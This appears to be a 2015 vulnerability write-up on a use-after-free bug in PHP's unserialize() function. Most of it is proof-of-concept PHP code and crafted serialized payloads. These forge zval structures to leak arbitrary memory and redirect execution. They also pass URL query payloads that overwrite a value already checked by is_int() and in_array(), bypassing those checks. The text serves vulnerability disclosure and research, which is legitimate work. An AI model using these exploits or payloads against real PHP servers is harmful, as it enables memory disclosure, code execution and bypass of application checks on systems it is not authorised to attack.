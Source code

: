 #### About PHP's unserialize() Function Use-After-Free Vulnerability
> Taoguang Chen <github.com/chtg> - 2015.1.24
 
i. Leak Arbitrary Memory
========

##### Overwrite an fake string ZVAL POC:
``` php
<?php

fake_zval();

$data = 'a:2:{i:0;O:8:"stdClass":2:{s:3:"aaa";a:2:{i:0;s:1:"A";i:1;i:2;}s:3:"aaa";i:3;}i:1;O:8:"stdClass":6:{i:2;i:4;i:3;i:5;i:4;s:2:"AA";i:5;s:'.strlen($zval).':"'.$zval.'";i:6;s:'.strlen($zval).':"'.$zval.'";s:3:"ccc";R:4;}}';

$x = unserialize($data);
$y = serialize($x);
var_dump($y);

function fake_zval()
{
	global $zval;

	$addr = 0x100000000;

	$zval = ptr2str($addr);           
	$zval .= ptr2str(0x400);
	$zval .= "\x00\x00\x00\x00";
	$zval .= "\x06";      
	$zval .= "\x00";
	$zval .= ptr2str(0);
	$zval .= ptr2str(0);
	$zval .= ptr2str(0);
}

function ptr2str($ptr)
{
	$out = "";
	for ($i=0; $i<8; $i++) {
		$out .= chr($ptr & 0xff);
		$ptr >>= 8;
	}
	return $out;
}
```
	
ii. Execute Arbitrary Code
========
 
### Overwrite an fake object ZVAL PoC:
``` php
<?php

fake_zval();

$data = 'a:7:{i:0;O:8:"stdClass":2:{s:3:"aaa";a:2:{i:0;s:1:"A";i:1;i:2;}s:3:"aaa";i:3;}i:2;i:4;i:3;i:5;i:4;s:2:"AA";i:5;s:'.strlen($zval).':"'.$zval.'";i:6;s:'.strlen($zval).':"'.$zval.'";s:3:"ccc";O:8:"stdClass":2:{s:3:"ddd";a:2:{i:0;R:4;i:1;i:2;}s:3:"ddd";i:3;}}';

$x = unserialize($data);
var_dump($x);

function fake_zval()
{
	global $zval;

	$addr = 0x41414141;

	$zval = ptr2str($addr);
	$zval .= ptr2str(0x11223344);
	$zval .= "\x00\x00\x00\x00";
	$zval .= "\x05";      
	$zval .= "\x00";
	$zval .= ptr2str(0);
	$zval .= ptr2str(0);
	$zval .= ptr2str(0);
}

function ptr2str($ptr)
{
	$out = "";
	for ($i=0; $i<8; $i++) {
		$out .= chr($ptr & 0xff);
		$ptr >>= 8;
	}
	return $out;
}
```

iii. Bypass Syntax Logical
========

### Code sample 1:
``` php
	$data = unserialize($_GET['data']);
 
	if (is_int($data['ccc'])) {
		$ddd = 'ddd';
		$eee = 'eee';
		$fff = 'fff'.$_GET['fff'];
		$ggg = 'ggg';
		var_dump($data['ccc']);
	} else {
		echo 'fuck';
	}
```
 
Overwrite $data['ccc'] and bypass in_int()
 
PoC:
``` php
	foo.php?data=a:3:{i:0;O:8:"stdClass":2:{s:3:"aaa";a:2:{i:0;i:1;i:1;i:2;}s:3:"aaa";i:3;}i:2;i:4;s:3:"ccc";R:5;}&fff=ryat
	// Result: string(7) "fffryat"
```

Code sample 2:
``` php
	<?php
 
	$data = unserialize($_GET['data']);
 
	if (is_string($data['ccc']) && in_array($data['ccc'], array('ccc'))) {
		$ddd = 'ddd'.$_GET['ddd'];
		$eee = 'eee';
		var_dump($data['ccc']);
	} else {
		echo 'fuck';
	}
```
	
Overwrite $data['ccc'] and bypass in_array()
 
PoC:
 
	foo.php?data=a:4:{i:0;O:8:"stdClass":2:{s:3:"aaa";a:2:{i:0;s:1:"A";i:1;i:2;}s:3:"aaa";i:3;}i:2;i:4;i:3;i:5;s:3:"ccc";R:4;}&ddd=ryat
	// Result: string(7) "dddryat"
 
iv. Others?
========
 
v. Reference
========
https://bugs.php.net/bug.php?id=68594
 
EOF
========
